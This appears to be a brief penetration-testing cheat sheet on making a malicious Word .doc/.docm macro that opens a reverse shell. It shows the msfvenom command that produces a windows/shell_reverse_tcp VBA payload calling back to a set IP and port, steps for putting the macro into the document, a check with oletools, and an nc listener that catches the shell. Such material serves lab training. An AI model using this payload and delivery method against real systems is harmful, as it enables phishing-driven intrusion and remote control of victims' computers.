




doc/docm Shell
Creating a Microsoft Word macro is as simple as choosing the VIEW ribbon and selecting Macros. We simply type a name for the macro and in the Macros in drop-down, select the name of the document the macro will be inserted into. When we click Create, a simple macro framework will be inserted into our document. Be sure to transfer in a binary friendly way (curl -O).
msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.132 lport=443 -f vba



^^^^^BE SURE TO CHANGE THE RIBBON TO MACROS IN DOCUMENT!!!^^^^^


If you close and reopen the document and this banner is on, you did good. If not, you probably did not select to add the macro just to the document (two pics up).
Verify that the macro made it to the target with oletools.
pip install -U oletools

Be sure to transfer in a binary friendly way (curl -O).
Once the file is executed, collect with nc -nlvp 443.